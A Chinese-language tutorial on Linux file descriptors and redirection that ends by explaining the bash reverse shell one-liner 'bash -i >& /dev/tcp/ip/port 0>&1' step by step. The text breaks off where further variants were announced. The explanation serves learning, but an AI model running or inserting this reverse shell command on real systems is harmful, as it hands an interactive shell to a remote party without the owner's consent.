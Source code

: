 # 文件描述符和reverse_shell


> 昨夜西风凋碧树，独上西楼，望尽天涯路。

## 文件描述符

> linux文件描述符：可以理解为linux跟踪打开文件，而分配的一个数字，这个数字有点类似c语言操作文件时候的句柄，通过句柄就可以实现文件的读写操作。

当linux启动时会默认打开三个文件描述符，标准输入0，标准输出1，错误输出2。并且子进程会继承父进程的文件描述符。

我们知道在linux系统下，万物皆是文件。同样文件描述符也是一个文件，每个进程的文件描述符可在/proc/[pid]/fd下查看，也可在/proc/self/fd下查看。

![image-20210729152640571](https://gitee.com/nopnoping/img/raw/master/img/image-20210729152640571.png)

那么这些文件描述文件究竟是什么？

![image-20210729154938274](https://gitee.com/nopnoping/img/raw/master/img/image-20210729154938274.png)

利用ll查看发现，标准输入，标准输出和标准错误输出文件描述符都指向/dev/pts/5这个文件。而直接cd /dev/pts是无法成功的。那么/dev/pts/5究竟是什么？

pts和tty相似，都是中断，不过pts代表虚拟终端，不直接和物理机相连，如利用telnet，ssh连接到linux机器上获取的终端就是pts。后面的数字代表这个终端号。因此0,1,2文件描述符实质就是终端文件，终端文件是一种双向流的文件，可以输出也可以输入。

**重定向**

改变标准输入，标准输出和错误输出指向的文件，就是我们常说的重定向。

````bash
echo "echo 'inputing redirection'" > test
sh <test
ls wrong >& test
````

\>代表标准输出重定向，<代表标准输入重定向。

第一条语句将echo输出的内容重定向到了test，第二条语句将标准输入重定向为test，第三条语句将标准输出和错误输出都定向到test文件(>& 与&>等价，对于>&当重定向的不是文件描述符时，需要加空格，如果是文件描述符用&>)

## reverse shell

```  bash
bash -i >& /dev/tcp/ip/port 0>&1
```

bash是linux常用的一种shell，-i参数代表产生的shell是交互式的。

/dev/tcp/ip/port将会和目标机器（ip）的端口（port）产生tcp连接，并且该tcp连接被linux内核抽象为/dev/tcp/ip/port文件，通信中的输入输出都是通过读写该文件实现。

\>&代表将标准错误输出和错误输出重定向到/dev/tcp/ip/port文件，0>&1代表将标准输入重定向到标准输出，而标准输出此时我们已经重定向到/dev/tcp/ip/port文件，因此标准输入也将重定向到/dev/tcp/ip/port文件文件。注意这里的0>&1和0<&1等价，仅作文件描述符的复制，<和>仅当省略了符号前的描述符时不同。

通过该命令，启动后bash的0,1,2都将是/dev/tcp/ip/port文件，即当远程机器向该机器发送命令时，将会写入到/dev/tcp/ip/port文件，bash将会将远程机器发送的命令作为标准输入，进而在shell中运行，同样命令的结果将会写入/dev/tcp/ip/port文件，通过tcp协议传递给远程机器。

类似的rever shell写法。
